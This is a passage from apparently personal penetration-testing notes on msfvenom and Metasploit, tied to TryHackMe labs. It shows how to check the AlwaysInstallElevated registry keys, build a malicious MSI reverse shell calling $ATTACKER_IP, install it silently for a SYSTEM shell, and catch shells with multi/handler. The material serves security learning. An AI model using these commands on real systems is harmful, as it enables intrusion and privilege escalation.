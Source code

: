 ```bash
```

System-specific shell codes can also be produced by appropriately varying the `-f` option.

### 32-Bit Windows Programs

By default, msfvenom produces 64-bit executables when using the `-f exe`. This doesn’t work, however, if you’re trying to replace a program in Program Files (x86). In this case, you’ll need to explicitly instruct msfvenom to encode a 32-bit binary using  `-e x86/shikata_ga_nai`.

### Malicious MSI Files

If `AlwaysInstallElevated`  is set to 1 under both of the following registry keys, then MSI installers will run as SYSTEM.

```powershell
reg query \
	HKCU\Software\Policies\Microsoft\Windows\Installer

reg query \
	HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer
```

Generate a malicious MSI file with msfvenom:

```bash
msfvenom -p windows/x64/shell_reverse_tcp \
	LHOST=$ATTACKER_IP LPORT=$ATTACKER_PORT \
		-f msi -o $INSTALLER.msi
```

Then install on the target to get a shell:

```powershell
msiexec /quiet /qn /i $INSTALLER.msi
```

### Catching Shells

Use the `exploit/multi/handler` module in Metasploit to catch the shells produced using Msfvenom (note that you’ll need to use `set payload` to tell Metasploit *what* it’s catching!). We can catch both regular reverse shells and Meterpreter sessions this way.

## References

* [TryHackMe: Complete Beginner](tryhackme-complete-beginner.md)
* [How does process migration work in Meterpreter](https://security.stackexchange.com/a/92893)
* [Metasploit Documentation: Scanning and Managing Hosts](https://docs.rapid7.com/metasploit/scanning-and-managing-hosts/)
* [Metasploit Basics, Part 8: Exploitation with EternalBlue](https://www.hackers-arise.com/post/2017/06/12/metasploit-basics-part-8-exploitation-with-eternalblue)
* [Shell to Meterpreter Upgrade](https://www.infosecmatter.com/metasploit-module-library/?mm=post/multi/manage/shell_to_meterpreter)
* [TryHackMe: CC: Pen Testing](tryhackme-cc-pen-testing.md)
* [Ice](tryhackme-ice.md)
* [How do you send a 64 bit meterpreter stager?](https://security.stackexchange.com/a/83410)
* [Blaster](tryhackme-blaster.md)
* [Multiple Ways to Persistence on Windows 10 with Metasploit](https://www.hackingarticles.in/multiple-ways-to-persistence-on-windows-10-with-metasploit/)
* [Metasploit - Payload](https://www.tutorialspoint.com/metasploit/metasploit_payload.htm)
* [TryHackMe: Game Zone](tryhackme-game-zone.md)
* [Using “nmap”](nmap.md)
* [Return-orientated programming (Wikipedia)](https://en.wikipedia.org/wiki/Return-oriented_programming)
* [Kerberos](kerberos.md)
* [Using John the Ripper](john-the-ripper.md)
* [Using Hashcat](hashcat.md)